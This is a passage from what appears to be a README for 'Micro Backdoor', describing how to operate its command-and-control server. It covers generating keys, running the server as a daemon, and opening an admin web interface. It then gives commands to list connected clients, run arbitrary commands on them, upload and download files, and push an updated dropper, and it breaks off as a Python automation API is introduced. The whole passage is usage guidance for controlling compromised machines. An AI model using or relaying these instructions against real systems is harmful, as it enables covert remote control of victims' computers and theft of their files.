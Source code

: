 4) Generate RSA key pair for new installation of the server, it will create `server.crt` and `server.key` files:

```
$ ./server.py --keys
```

5) Run the server as background process:

```     
$ ./server.py --daemon
```

6) Shutdown the server:

```
$ ./server.py --shutdown
```

Alternatively, you can run `server.py` with no command line options specified to start the server as interactive shell process (useful for debugging). After the server was started you can open admin interface in the web browser, its URL is composed from `HTTP_ADDR`, `HTTP_PORT` and `HTTP_PATH` options of `config.py` configuration file.  

Also, there’s some options to interact with connected clients from the command line.  

Retrieve and print list of the currently connected clients:

```
$ ./server.py --list
```

Execute some command on the connected client:

```
$ ./server.py --client <client_ID> --exec <command>
```

Upload some file to the connected client:

```
$ ./server.py --client <client_ID> --fput <remote_path> --file <local_path>
```

Download some file from the connected client:

```
$ ./server.py --client <client_ID> --fget <remote_path> --file <local_path>
```

Update Micro Backdoor on the client:

```     
$ ./server.py --client <client_ID> --update <dropper_path>
```


## Using Python API

As it was mentioned above, Micro Backdoor server is also providing Python API to interact with connected clients which is quite useful for automation and scripting purposes. Here's some examples how to use this API.  
